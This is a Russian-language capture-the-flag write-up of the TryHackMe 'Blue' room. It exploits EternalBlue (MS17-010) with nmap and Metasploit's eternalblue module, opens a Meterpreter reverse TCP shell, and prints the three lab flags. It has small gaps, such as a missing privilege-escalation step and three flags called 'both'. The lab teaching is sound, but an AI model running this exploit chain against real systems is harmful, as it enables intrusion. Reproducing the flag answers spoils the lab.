

# TryHackMe: Blue

**Платформа:** TryHackMe  
**Сложность:** Easy  
**Дата:** 04.11.2026

## 1. Описание комнаты

Комната **Blue** посвящена эксплуатации одной из самых известных уязвимостей в истории Windows - **EternalBlue (MS17-010)**. 

Именно эту уязвимость использовал вирус-шифровальщик WannaCry в 2017 году, чтобы заразить сотни тысяч компьютеров по всему миру.

**В ходе выполнения комнаты мы:**
- Проведем разведку с помощью `nmap` и обнаружим уязвимый сервис SMB (порт 445).
- Используем фреймворк **Metasploit** для эксплуатации уязвимости и получения удаленного доступа (шелла).
- Изучим процесс повышения привилегий до `NT AUTHORITY\SYSTEM` (полный административный доступ).
- Найдем флаги `user.txt` и `root.txt`.

## 2. Разведка

Наша разведка начнется с `Nmap`: nmap -p 1-999 10.113.175.188. Сканируем первые 999 портов, посмотрим на вывод:

Можем заметить открытые порты `135/tcp`, `139/tcp` и `445/tcp`.
Теперь мы можем запустить сканирование `Nmap` с помощью скрипта обнаружения версии SMB: `nmap -p 445 --script=smb-vuln-ms17-010 10.113.175.188`. Посмотрим на вывол:

---

## 3. Metasploit

Запустим Metasploit: `msfconsole`.
`search ms17-010`:

`use  exploit/windows/smb/ms17_010_eternalblue`
`show options`

Как видим, нам нужно установить IP-адрес целевой машины в параметр **`RHOSTS`**, а также выбрать полезную нагрузку (Payload) для получения обратного шелла.

Установим IP цели:
`set RHOSTS 10.113.175.188`

Теперь выберем Payload (обратный TCP-шелл для Meterpreter):
`set PAYLOAD windows/x64/meterpreter/reverse_tcp`

Посмотрим на опции Payload, чтобы убедиться, что `LHOST` (наш IP) подставился автоматически:
`show options`

Вводим `run` (или `exploit`) и ждем, пока Metasploit подберет нужный смещение памяти и отправит эксплойт. Если всё успешно, мы получим сессию Meterpreter.

---

## 4. Поиск флагов

`cd C:\\`
`cat flag1.txt`
Вывод: `flag{access_the_machine}`

`search -f flag2.txt`
`cd Windows\\System32\\config\\`
`cat flag2.txt`
Вывод: `flag{sam_database_elevated_access}`

`cd Users\\`
`ls`
`cd Jon\\`
`cd Documents\\`
`ls`
`cat flag3.txt`
Вывод: `flag{admin_documents_can_be_valuable}`
Скопируем оба флага и отправим их в ответы на TryHackMe. Лаба решена!

---

## 6. Причина уязвимости

Уязвимость EternalBlue (CVE-2017-0143) возникает из-за ошибки переполнения буфера в реализации протокола SMBv1 в Windows. Специально сформированный пакет вызывает сбой в обработке памяти, что позволяет злоумышленнику выполнить произвольный код с правами `NT AUTHORITY\SYSTEM`.
